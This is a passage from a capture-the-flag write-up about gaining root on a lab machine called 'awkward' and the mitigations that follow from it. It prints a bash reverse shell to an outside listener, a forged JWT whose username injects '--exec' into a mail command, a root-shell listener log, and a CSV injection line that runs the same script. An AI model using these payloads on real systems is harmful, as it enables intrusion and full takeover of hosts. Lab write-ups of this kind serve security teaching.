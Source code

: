 I created a script on the server and made it executable. 

```bash
bean@awkward:~$ cat /tmp/test.sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'
```

Then I sent a username that would use `--exec` on the mail command to run the script.

```json
{
  "username": ["\\\" --exec=\\\"\\!/tmp/test.sh\\\""],
  "iat": 1673727191
}
```
I sent a new request with the generated JWT and I got a hit on my listener.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.185] 35700
bash: cannot set terminal process group (946): Inappropriate ioctl for device
bash: no job control in this shell

root@awkward:~/scripts# whoami
whoami
root

root@awkward:~/scripts# cat /root/root.txt
cat /root/root.txt
REDACTED
```

After I finally got root, I realized that I could have done the same when I got the shell as www-data. The file used to store the leave requests is writable by www-data. So I could add the command to the file and get my shell.

```bash
echo ' " --exec="!/tmp/test.sh"' >> /var/www/private/leave_requests.csv
```

## Mitigations

This box was made vulnerable by a series of mistakes, mostly in the main application.

The source maps are great for developers, but they should not be available in production. They also make life easier for hackers.

The token validation was problematic. If the token was not set to `guest`, then I could access pages that should have been protected. The code should always validate the full token and reject any requests with an invalid token.

The API endpoint to check the store status had no reason to take a URL parameter. The developers should know where the store would be. If they need multiple URLs for different environments, that could be stored in an environment variable instead of allowing the users to query anything they want.
